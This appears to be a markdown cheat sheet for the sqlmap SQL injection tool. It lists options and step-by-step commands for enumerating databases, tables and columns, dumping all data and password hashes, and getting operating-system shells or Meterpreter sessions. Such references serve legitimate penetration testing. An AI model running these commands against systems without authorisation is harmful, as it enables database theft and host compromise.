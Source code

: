 ## Basic Commands

> `sqlmap -h` # basic help menu  
> `sqlmap -hh` # advanced help menu

| Options           | Description                                              |
| ----------------- | -------------------------------------------------------- |
| -u URL, --url=URL | target URL (eg. 'https://www.example.com/vuln.php?id=1') |
| --data=DATA       | data string to be sent through POST (eg. id=1)           |
| --random-agent    | use randomly selected HTTP User-Agent header value       |
| -p TESTPARAMETER  | Testable parameter(s)                                    |
| --level=LEVEL     | level of tests to perform (1-5, default 1)               |
| --risk=RISK       | risk of tests to perform (1-3, default 1)                |

## Enumeration commands

| Options          | Description                                |
| ---------------- | ------------------------------------------ |
| -a, -all         | retrieve everything                        |
| -b, --banner     | retrieve DBMS banner                       |
| --current-user   | retrieve DBMS current user                 |
| --current-db     | retrieve DBMS current database             |
| --passwords      | enumerate DBMS users password hashes       |
| --dbs            | enumerate DBMS databases                   |
| --tables         | enumerate DBMS database tables             |
| --columns        | enumerate DBMS database table columns      |
| --schema         | enumerate DBMS schema                      |
| --dump           | dump DBMS database table entries           |
| --dump-all       | dump all DBMS databses tables entries      |
| --is-dba         | detect if the DBMS current user is DBA     |
| -D \<DB NAME>    | DBMS database to enumerate                 |
| -T \<TABLE NAME> | DBMS database table(s) to enumerate        |
| -C COL           | DBMS database table column(s) to enumerate |

## Operating System access commands

| Options        | Description                                           |
| -------------- | ----------------------------------------------------- |
| --os-shell     | prompt for an interactive operating system shell      |
| --os-pwn       | prompt for an OOB shell, Meterpreter or VNC           |
| --os-cmd=OSCMD | execute an OS command                                 |
| --priv-esc     | database process user privilege escalation            |
| --os-smbrelay  | one-click prompt for an OOB shell, meterpreter or VNC |

## Check database schema

### Simple HTTP GET test

```sh
sqlmap -u https://example.com/page.php?id=7 --dbs
```

- enumerate the database at that URL

### Simple HTTP POST test

- in Burp , POST request box > Right-click > Copy to file > save to request_file.txt

```sh
sqlmap -r <request_file.txt> -p <vulnerable_parameter> --dbs
```

## Check database tables

### GET method

```sh
sqlmap -u https://example.com/page.php?id=7 -D <db_name> --tables
```

### POST method

```sh
sqlmap -r <request_file.txt> -p <vulnerable_parameter> -D <db_name> --tables
```

## Check columns

### GET method

```sh
sqlmap -u https://example.com/page.php?id=7 -D <db_name> -T <table_name> --columns
```

### POST method

```sh
sqlmap -r <request_file.txt> -D <db_name> -T <table_name> --columns
```

## Dump all available databases and tables

### GET method

```sh
sqlmap -u <URL> -D <db_name> --dump-all
```

### POST method

```sh
sqlmap -r <request_file.txt> -D <db_name> --dump-all
```
